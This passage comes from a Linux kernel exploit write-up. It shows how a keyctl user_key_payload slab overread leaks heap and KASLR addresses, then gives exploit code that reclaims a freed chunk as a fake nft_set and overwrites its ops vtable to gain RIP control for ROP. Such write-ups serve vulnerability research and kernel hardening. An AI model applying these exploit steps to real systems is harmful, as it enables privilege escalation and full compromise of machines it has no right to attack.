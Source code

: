 ```c
			}
		}

		ret = __keyctl_read_key(key, key_data, key_data_len);

		/*
		 * Read methods will just return the required length without
		 * any copying if the provided length isn't large enough.
		 */
		if (ret <= 0 || ret > buflen)
			break;

		/*
		 * The key may change (unlikely) in between 2 consecutive
		 * __keyctl_read_key() calls. In this case, we reallocate
		 * a larger buffer and redo the key read when
		 * key_data_len < ret <= buflen.
		 */
		if (ret > key_data_len) {
			if (unlikely(key_data))
				kvfree_sensitive(key_data, key_data_len);
			key_data_len = ret;
			continue;	/* Allocate buffer */
		}

		if (copy_to_user(buffer, key_data, ret))
			ret = -EFAULT;
		break;
	}
// ...
}
```
Note that the `user_read` function uses `memcpy` to copy the key payload into the kernel scratch buffer. After copying the key contents, the scratch buffer is again copied to the userland by `copy_to_user` function. Thanks to this behavior, slab overread through `struct user_key_payload` is not hindered by `CONFIG_USERCOPY_HARDENED` config.

After this step, the heap leak and KASLR leak for further exploit steps is acquired. 

### 7.5 PC control for ROP

In this section, the exploit achieves RIP control through vtable overwrite and performs ROP for arbitrary kernel code execution, using the heap leaks and KASLR leaks from previous steps.

- [exploit/extra-refined/exploit.c#L1196](../exploit/extra-refined/exploit.c#L1196)
```c
// free the chunk and reclaim with our fake nft_set
if (keyctl(KEYCTL_REVOKE, key, 0, 0, 0) < 0)
{
	perror("keyctl(KEYCTL_REVOKE)");
}
// [1]
sleep(1); // key is released by rcu, let's wait for a while...
if ((key = add_key("user", "yeeeeeeeeeet", buf, 0x1f8, KEY_SPEC_PROCESS_KEYRING)) < 0)
	perror("add_key");
```
Recall that the `struct nft_set` objects contain `ops` fields, which is the vtable pointer and can be used for RIP control. The exploit overwrites `struct nft_set` object to corrupt `ops` fields, by freeing the overlapping `struct user_key_payload` object and reclaiming again with the same objects containing the proper payload.
